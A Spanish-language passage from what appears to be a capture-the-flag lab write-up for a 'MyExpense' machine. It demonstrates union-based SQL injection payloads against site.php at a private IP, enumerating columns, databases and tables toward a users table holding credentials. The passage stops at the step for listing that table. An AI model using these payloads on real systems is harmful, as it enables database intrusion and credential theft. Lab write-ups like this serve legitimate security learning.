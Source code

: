 Por el comportamiento de la pagina confirmamos que es vulnerable a ataques SQLI

### Averiguando el numero total de columnas en la base de datos

Podemos aprovechar el mensaje de error para saber cuantos numeros de columnas existen en la base de datos(spoiler son 2 columnas)

```sql
http://192.168.101.150/site.php?id=2 order by 2-- -'
```

### Base de datos
Listando las bases de datos existentes.

```sql
http://192.168.101.150/site.php?id=2 union select 1, schema_name from information_schema.schemata-- -'
```

![](/assets/imgs/my_expense_27.png)

### Listando el contenido de la base de datos

```sql
http://192.168.101.150/site.php?id=2 union select 1, table_name from information_schema.tables where table_schema='myexpense'-- -
```
![](/assets/imgs/my_expense_28.png)

Existe una tabla "users" en la que seguramente se guarden los usuarios y contraseñas, vamos a ver.

### Listando la tabla user
